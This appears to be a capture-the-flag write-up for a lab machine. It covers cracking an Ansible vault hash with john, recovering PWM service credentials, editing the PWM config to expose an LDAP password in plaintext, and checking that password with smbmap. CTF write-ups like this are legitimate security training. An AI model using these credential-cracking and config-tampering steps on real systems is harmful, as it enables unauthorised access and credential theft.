

Now that we have a general direction. The next question is.. where is the next clue ?


https://github.com/pwm-project/pwm


Now, we know exactly which version of PWN we're running and there's no exploit available  in the wild for pwm v2.03


Awesome,  we've made progress.. and now how do we decrypt it ? 

 I found this two resources online that were useful
https://www.bengrewell.com/cracking-ansible-vault-secrets-with-hashcat/
https://ppn.snovvcrash.rocks/pentest/infrastructure/devops/ansible

We extracted the vaults blob containing the encrypted password and cracked the secret AES key using john.

```sh
ansible2john pwd.vault | tee pwd.hash
```
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt  pwd.hash
```

	AES Decryption Key: !@#$%^&*


We need to install ansible to get access to the ansible-vault command
```sh
sudo apt install -y ansible 
```

And we've compromised a login using the secret key!
```
username: svc_pwm
password: pWm_@dm!N_!23
```


Now have access to pwm's config editor!


---

_We got some bad news! svc_pwm is not a domain user_


However, now we have access to pwm admins interface. Let's see what we can do


We download the xml file and found a mention to  user svc_ldap and a encrypted password.


Good news svc_ldap is a domain user! we're getting closer to our first objective!


More good news, there's a weird ass comment on the xml file that says that we can force the document to be generated containing credentials in clear text by adding a new
property key!  


Let's try this   

```
<property key="storePlaintextValues">true</property>
```


Now we upload the modified configuration file.  


Oh my goodness it worked!!


```
username: svc_ldap@authority.htb
password: lDaP_1n_th3_cle4r!
```


Let us test it

```sh
smbmap -d authority.htb \
	-u svc_ldap \
	-p 'lDaP_1n_th3_cle4r!' \
	-H authority.authority.htb
```



Perfect, we got the objective 1 and now we also have access to the "Department Shares"